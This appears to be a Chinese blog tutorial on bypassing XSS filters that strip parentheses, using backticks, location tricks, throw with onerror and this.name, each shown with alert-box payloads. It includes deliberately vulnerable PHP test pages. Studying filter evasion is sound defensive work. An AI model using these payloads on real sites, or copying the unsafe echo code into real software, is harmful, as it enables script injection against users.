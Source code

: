 ### 前言
- - -
这篇文章，主要是补充一些其他的。

### “圆括号”
- - -
假设过滤了`()`，怎么进行弹框呢?如果仅仅只考虑这点，可执行payload还满多的。

最简单的，用反引号代替圆括号。

```html
<img src=x onerror=alert`1`>
```

引入伪协议，以及location，然后进行编码拆分。

`<img src=1 onerror=alert%28%29>`

`<img src=1 onerror=location="javascript:"+"aler"+"t%281%29">`

这里引用[P牛](https://www.leavesongs.com/PENETRATION/use-location-xss-bypass.html)文章的过滤代码，利用这个代码来测试学习。

```php
<?php
header('X-XSS-Protection: 0');
$xss = isset($_GET['xss'])?$_GET['xss']:'';
$xss = str_replace(array("(",")","&","\\","<",">","'","`"), '', $xss);
echo "<img src=\"{$xss}\">";
?>
```

我还特地过滤了反引号，不然用反引号代替括号直接弹。

来个好玩的例子，这个例子来自`XSS挑战第一期Writeup`的一个payload。

![1.jpg](https://i.loli.net/2019/04/28/5cc51dc7df19c.jpg)

我们既然不能用`()`，很多人第一思路肯定是url编码`()`，url编码为`%28%29`，而上面那个例子，通过赋值变量a等于字符串`"%2"`，巧妙通过+拼接字符串`(1)`。

成功弹窗。

![2.jpg](https://i.loli.net/2019/04/28/5cc51dfd50420.jpg)

#### Throw 
- - -

除了上面拼接编码的操作外，我们不得不提到`thorw`，在文档`“Modern Web Application Firewalls Fingerprinting and Bypassing XSS Filters”`中在提到了一个很有趣的话题。那就是在圆括号被过滤的情况下,如何去执行javascript，文中给出的答案是。
```
<a onmouseover="javascript:window.onerror=alert;throw 1>
```
`throw`语句用来抛出一个用户自定义的异常，而使用`onerror`来捕获异常，来完成弹窗这个操作。

看个例子：

![3.jpg](https://i.loli.net/2019/04/28/5cc51e227db21.jpg)

伪协议执行，`onerror`捕获的异常，成功弹框。

![4.jpg](https://i.loli.net/2019/04/28/5cc51e39b4366.jpg)

将`top`赋值给`_`，所以后面2个`_`等价于`top`，除了`top`，还可以用`self parent frames content window`其中一个代替。

![5.jpg](https://i.loli.net/2019/04/28/5cc51e55ed23e.jpg)

弹框。

![6](https://i.loli.net/2019/04/28/5cc5251d06004.jpg)

这里引用了 `IE8/IE9 filter` 的一个技巧(`%00`)。

![7](https://i.loli.net/2019/04/28/5cc525511d53c.jpg)

在IE下会弹出一个错误。

![8](https://i.loli.net/2019/04/28/5cc52599759cc.jpg)

#### location
- - -
这段会介绍，利用`lacation对象`属性相关的利用，先来上张图。

![9](http://img.mukewang.com/53605c5a0001b26909900216.jpg)

这张图，清晰的展示了，`lacation对象`不同的属性在网页url中的体现。

这里我要介绍的是`location.search`。

![10](https://i.loli.net/2019/04/28/5cc525e6ca47e.jpg)

查看上面的文档，`location.search`设置或返回当前 URL 的查询部分即问号`?`之后的部分，如果你不太理解，那我们来看个小例子下。

假设我们现在的网页url为`http://localhost/1.html?id=s9mf#Test`。那么在控制台输出`location.search`，返回结果会是怎样呢?

![11](https://i.loli.net/2019/04/28/5cc52601878c3.jpg)

返回结果为`?id=s9mf`，即以`?`之后部分，而`#`之后部分属于`location`对象的`hash属性`所控制，所以不会在控制台显示。

`location.search`可以用`数组键名索引`的方式来访问设置的`?`之后的部分。

![12](https://i.loli.net/2019/04/28/5cc526222e23e.jpg)

利用上述特性，把`(1)`放在url查询部分，定义a变量赋值为`location.search`，再用`location.search`以数组键名索引的方式取回来`(1)`。

![13](https://i.loli.net/2019/04/28/5cc5264d65db1.jpg)

成功弹框

![14](https://i.loli.net/2019/04/28/5cc52661482e5.jpg)

利用注释和location.hash，把alert(233)放在#后面，再调用回来。

![15](https://i.loli.net/2019/04/28/5cc5267504717.jpg)

弹框~

![16](https://i.loli.net/2019/04/28/5cc5268c7eaeb.jpg)

eval执行，IE下报错弹框

![17](https://i.loli.net/2019/04/28/5cc526a485e75.jpg)

duang~

![18](https://i.loli.net/2019/04/28/5cc526ba41848.jpg)

### This
- - -
在介绍this前，我们需要把前面的测试代码修改下，使其在<input>标签内。
  
```
<?php
header('X-XSS-Protection: 0');
$xss = isset($_GET['xss'])?$_GET['xss']:'';
$xss = str_replace(array("(",")","&","\\","<",">","'","`"), '', $xss);
echo "<input value=\"$xss\">";  
?>
```
还是和以前的过滤条件。

`this` 总是返回一个对象，简单说，就是返回属性或方法“当前”所在的对象。

`alert`后面跟着的是url编码的`()`，name被赋值，`this.name`返回一个对象，用`onfocus`事件在对象获得焦点时发生。

![19](https://i.loli.net/2019/04/28/5cc526dbc7ea6.jpg)

duang~

![20](https://i.loli.net/2019/04/28/5cc526f509219.jpg)

this结合函数`<svg onload="a(this);function a()(alert(1))">`。

### 参考
* https://www.secpulse.com/archives/47696.html
* http://www.anquan.us/static/drops/papers-894.html





